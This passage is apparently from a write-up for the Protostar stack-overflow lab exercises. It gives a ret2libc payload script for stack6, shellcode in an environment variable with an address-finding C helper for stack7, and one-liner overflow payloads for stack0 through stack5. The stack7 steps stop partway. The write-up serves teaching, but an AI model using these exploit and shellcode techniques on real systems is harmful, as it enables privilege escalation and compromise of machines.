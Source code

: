 ```
import struct

padding = 'A'* 80
system = struct.pack("I", 0xb7ecffb0)
nop = "\x90" * 4
bin_sh = struct.pack("I", 0xb7fb63bf)

print (padding + system + nop + bin_sh)
```
>
> 16. `python /tmp/stack6.py > /tmp/txt`
>
> 17. `cat /tmp/txt - | ./stack6`
>
> 18. Check if you are now root instead of user: `whoami`

*******

## Stack7: rop
------------------------------------------------------------------------
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M

> 1.  $ cd /tmp       
>
> 2.  $ objdump -d /opt/protostar/bin/stack7 > /tmp/objdumpstack7
>
> 3.  Observe objdump for pop and return. Such as:    
```
 8048492:	5b                   	pop    %ebx    
 8048493:	5d                   	pop    %ebp    
 8048494:	c3                   	ret    
```
> 4. Get shell code `http://shell-storm.org/shellcode/files/shellcode-811.php` and store it into environmental variable
```
SHELLCODE=`python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"`
```
> 5. Make this c file in /tmp: `vim /tmp/env.c`    
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
    char *ptr;

    ptr = getenv(argv[1]); //get env var location
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2; // adjust for program name
    printf("%s address: %p\n", argv[1], ptr);
}
```
> 6. Compile env.c: `gcc /tmp/env.c -o /tmp/env`
> 
> 7. /tmp/env SHELLCODE /opt/protostar/bin/stack7
>
> 8. Execute it: `/tmp/env SHELLCODE /opt/protostar/bin/stack7`
>    example output: `SHELLCODE address: 0xffffffde` 0xffffffdd


[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY